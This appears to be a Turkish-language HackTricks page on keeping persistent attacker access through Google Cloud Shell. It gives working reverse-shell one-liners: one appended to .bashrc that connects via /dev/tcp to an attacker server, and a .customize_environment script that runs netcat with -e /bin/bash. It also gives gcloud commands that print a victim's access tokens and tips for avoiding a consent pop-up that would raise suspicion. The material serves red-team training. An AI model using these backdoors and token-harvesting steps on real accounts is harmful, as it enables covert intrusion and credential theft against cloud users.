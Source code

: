 # GCP - Cloud Shell Sürekliliği

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Cloud Shell

Daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Sürekli Arka Kapı

[**Google Cloud Shell**](https://cloud.google.com/shell/) tarayıcınızdan bulut kaynaklarınıza komut satırı erişimi sağlar ve bununla ilgili herhangi bir maliyet yoktur.

Google'ın Cloud Shell'ine **web konsolundan** veya **`gcloud cloud-shell ssh`** komutunu çalıştırarak erişebilirsiniz.

Bu konsolun saldırganlar için bazı ilginç yetenekleri vardır:

1. **Google Cloud'a erişimi olan herhangi bir Google kullanıcısı**, tamamen kimlik doğrulaması yapılmış bir Cloud Shell örneğine erişim sağlar (Hizmet Hesapları, organizasyonun Sahipleri olsa bile erişebilir).
2. Bu örnek, **hiçbir etkinlik gerçekleşmezse en az 120 gün boyunca** ana dizinini koruyacaktır.
3. Bu örneğin etkinliğini **izleme yeteneği yoktur**.

Bu, temelde bir saldırganın kullanıcının ana dizinine bir arka kapı koyabileceği ve kullanıcı her 120 günde bir GC Shell'e bağlandığı sürece, arka kapının hayatta kalacağı ve saldırganın her çalıştırıldığında bir shell alacağı anlamına gelir, sadece şunu yaparak: 

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Ev dizininde, kullanıcı **cloud shell**'e eriştiğinde **her seferinde** **çalıştırılacak** olan başka bir dosya olan **`.customize_environment`** adında bir dosya vardır. Kullanıcı "sık sık" cloud shell'i kullandığı sürece kalıcılığı sağlamak için önceki arka kapıyı veya aşağıdaki gibi birini ekleyin:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**Kimlik doğrulama gerektiren bir eylem gerçekleştirildiğinde**, kullanıcının tarayıcısında bir onay penceresi açıldığını belirtmek önemlidir. Bu pencerenin kabul edilmesi, komutun çalışabilmesi için gereklidir. Beklenmedik bir pop-up görünürse, bu şüphe uyandırabilir ve kullanılan kalıcılık yöntemini tehlikeye atabilir.
{% endhint %}

Bu, bulut shell'den (saldırgan olarak) `gcloud projects list` komutunu çalıştırdığınızda kullanıcı oturumunda görülen pop-up'tır:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Ancak, kullanıcı bulut shell'i aktif olarak kullanmışsa, pop-up görünmeyecek ve **kullanıcının token'larını toplamak için**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH bağlantısının nasıl kurulduğu

Temelde, bu 3 API çağrısı kullanılır:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (yerel olarak oluşturduğunuz genel anahtarınızı eklemenizi sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (örneği başlatmanızı sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (google cloud shell'in ip'sini bildirir)

Ancak daha fazla bilgi bulabilirsiniz [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referanslar

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
